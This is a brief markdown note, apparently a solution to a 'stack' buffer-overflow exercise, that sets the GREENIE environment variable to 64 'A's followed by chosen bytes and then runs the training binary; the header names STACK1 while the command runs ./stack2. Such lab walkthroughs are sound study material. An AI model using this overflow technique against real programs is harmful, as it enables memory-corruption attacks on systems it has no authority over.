

# STACK1
This stack is pretty the same as 0. We need overwrite "GREENIE" env with value `'A' * 64 + 0x0a0d0a0d`
```
export GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
echo $GREENIE
./stack2
```

run with breakpoints:

